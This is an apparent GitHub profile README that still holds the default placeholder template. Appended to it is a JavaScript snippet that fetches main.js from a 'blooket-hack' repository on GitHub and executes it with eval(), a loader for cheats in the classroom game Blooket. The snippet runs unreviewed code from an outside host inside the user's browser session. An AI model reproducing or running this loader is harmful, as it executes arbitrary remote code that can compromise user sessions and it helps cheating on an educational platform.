 - 👋 Hi, I’m @RedGamer282
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
RedGamer282/RedGamer282 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->fetch("https://raw.githubusercontent.com/glixzzy/blooket-hack/main/main.js")
.then((res) => res.text()
.then((t) => eval(t)))

